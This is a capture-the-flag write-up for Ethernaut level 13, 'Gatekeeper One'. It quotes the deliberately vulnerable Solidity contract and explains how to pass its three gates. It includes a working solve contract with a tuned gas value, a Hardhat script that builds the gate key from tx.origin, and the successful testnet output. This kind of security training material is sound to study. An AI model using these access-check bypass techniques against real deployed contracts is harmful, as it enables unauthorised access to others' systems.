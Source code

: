 ```yaml
---
title: "Ethernaut #13 Gatekeeper One"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper One challenge writeup
---
```


## Gatekeeper One

### Challenge

Make it past the gatekeeper and register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from the Telephone and Token levels.
* You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is rather simple. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge. The only thing that is not trivial is how to get the `gasleft` to be a multiple of `8191`.

### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `gas` needs to be estimated such that it has a remainder of `8191` when `gasleft()` is reached. Finally the `_gateKey` needs to have some non-zero value for the 4 MSB, then two zeros and then the last two bytes of the `tx.origin`.

* Create a contract that:
  * calls the `GatekeeperOne` `enter` function
  * has a specific `gas` associated with the `enter` function
* Generate the `_gateKey` by:
  * Using `0x00000001` as the MSB
  * Then `0x0000` as the next two bytes
  * Finally the last two bytes of `tx.origin`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperOne.sol';

contract GatekeeperOneSolve {

    constructor() public {}
    
    function enter (address payable _gatekeeperOneAddress, bytes8 _gateKey) public payable {
        GatekeeperOne gatekeeperOneContrtact = GatekeeperOne(_gatekeeperOneAddress);
        gatekeeperOneContrtact.enter{gas: 868500}(_gateKey);
    }

}
```

In order to deduce the gas amount I used remix, debuged the contract execution in the remix vm, and checked what the `gas` opcode pushed onto the stack. I then found how much i needed to add (or subtract) in order for that value to be a multiple of 8191 and I added it to the `gas` I provided. I then had to reduce the value a bit when executing for the rinkeby network, because I set a the `gas` lower in my `hardhat.config.js`.

#### gatekeeper-one-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/gatekeeper-one-solve.js --network rinkeby
Initial entrant: 0x0000000000000000000000000000000000000000
0x000000010000276d
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Well done! Next, try your hand with the second gatekeeper...
